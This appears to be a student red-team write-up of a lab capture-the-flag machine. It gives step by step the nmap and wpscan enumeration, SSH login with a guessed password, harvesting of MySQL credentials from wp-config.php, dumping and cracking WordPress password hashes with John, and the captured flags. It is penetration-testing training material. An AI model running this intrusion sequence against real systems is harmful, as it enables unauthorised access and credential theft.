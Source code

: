 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
nmap -sS -A 192.168.1.110
```
![nmap1](../images/nmap1.JPG)
![nmap2](../images/nmap2.JPG)


This scan identifies the services below as potential points of entry:

`Target 1`

| **PORT** | **Port Status** | **Service** |                    **Version**                   |
|:--------:|:---------------:|:-----------:|:------------------------------------------------:|
| 22/tcp   | open            | ssh         | OpenSSH 6.7 Debian 5+deb8u4 (protocol 2.0)       |
| 80/tcp   | open            | http        | Apache httpd 2.4.10 ((Debian))                   |
| 111/tcp  | open            | rpcbind     | 2-4 (RPC #100000)                                |
| 139/tcp  | open            | netbios-ssn | Samba 3.X - 4.X (workgroup: WORKGROUP)           |
| 445/tcp  | open            | netbios-ssn | Sambra smbd 4.2.14-Debian (workgroup: WORKGROUP) |

The following vulnerabilities were identified on each target:
- `Target 1`
  - [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)
  - [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://nvd.nist.gov/vuln/detail/CVE-2017-8779) 
  - [CVE-2017-7494 Samba NetBIOS](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)

### Exploitation
- Enumeration and Network Mapping
  - Nmap was used to discover open ports
    - This helped me determine how best to attack the system
![nmap1](../images/nmap1.JPG)
![nmap2](../images/nmap2.JPG)

- Weak passwords
  - In this case `michael`'s password was `michael`. 
    - A password this simple is easily guessed by a hacker. Guessing this password without using a Brute Forcing method would make it difficult for the defense to detect that it was a malicious user who logged in, rather than Michael. 

![hydra](../images/hydra_michael.JPG)

- MySQL Database Access
  - Wpscan enumerated users
    - Using SSH with `Michael`'s password above, I was able to access the WordPress database

![wpscan1](../images/wpscan1.JPG)
![wpscan2](../images/wpscan2.JPG)
![wpscan3](../images/wpscan3.JPG)
![ssh_command](../images/ssh_command.JPG)
![wp_config_username_password](../images/wp_config_username_password.JPG)
![wp_config_keys](../images/wp_config_keys.JPG)
![mysql_login](../images/mysql_login.JPG)


- MySQL Data Exfiltration
  - I was able to navigate through the database and find multiple important tables such as:
    - `wp_users`
    - `wp_posts`

![user_hashes](../images/user_hashes.JPG)


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- `Target 1`
  - ***_flag1.txt_***: `flag1{b6bbcb33e11b80be759c4e844862482d}` 

**Exploit Used**

***_flag1.txt_***
- Enumerated the WordPress site using wpscan

  > Command: wpscan --url http://192.168.1.110/wordpress -eu
  
    ![wpscan1](../images/wpscan1.JPG)
    ![wpscan2](../images/wpscan2.JPG)
    ![wpscan3](../images/wpscan3.JPG)

- I then went to the IP address via a web browser and inspected the page source to find the first flag.

  ![webpage_target1](../images/webpage_target1.JPG)
  
  ![flag1.2](../images/flag1.2.JPG)
  
  ![flag1](../images/flag1.JPG)

---

***_flag2.txt_***: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`
**Exploit Used**

- Using SSH to gain access to Michael's account

  > Command: `ssh michael@192.68.1.110`
  > Enter Password: `michael`

  ![ssh_command](../images/ssh_command.JPG)

  > Command: `cd /var/www`
  > Command: `ls`

  ![flag2](../images/flag2.JPG)

---

***_flag3.txt & flag4.txt_***: `flag3{a0f568aa9de277887f37730d71520d9b}` & `flag4{{715dea6c055b9fe3337544932f2941ce}`
**Exploit Used**
  - Using the SSH shell above, I navigated to `/wordpress`
      
    > Command: `cd /var/www/html/wordpress`
    > Command: `ls`
        
    ![wordpress_config](../images/wordpress_config_directory.JPG)

    > Command: `less wp-config.php`
        
    ![wp_config_keys](../images/wp_config_keys.JPG)
    ![wp_config_username_password](../images/wp_config_username_password.JPG)

    > Command: `mysql -u root -p`
    > Password: `R@v3nSecurity`
        
    ![mysql_login](../images/mysql_login.JPG)

    > Command: `show databases;`
    > Command: `use wordpress;`
    > Command: `show tables;`
    > Command: `select * from wp_posts;`
      
    ![flag3_and_4](../images/flag3_and_4.JPG)
    
  - I navigated through the database and accessed the database entry entitled `wp_users`
  
  ![wp_user](../images/wp_userhashes.JPG)
    
    
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
|----|------------|------------------------------------|---------------|-------------------|----------|---------------------|---------------------|-------------|----------------|
| 1  | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     | 0           | michael        |
| 2  | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     | 0           | Steven Seagull |
  
  - I copied the user hashes onto the kali machine
    > Command: `touch wp_userhashes.txt`
    > Command: `vim wp_userhashes.txt`
    
  - Then I used `John` to crack `steven`'s hash to gain root access
    > Command: `john wp_userhashes.txt`
  
  ![john_hashcrack](../images/john_hashcrack.JPG)
  ![john_stevenpassword](../images/john_stevenpassword.JPG)
  
- After obtaining steven's password of `pink84` I gained root access via ssh
  > Command: `ssh steven@192.168.1.110`
  > Password: `pink84`

![steven_root](../images/steven_root.JPG)
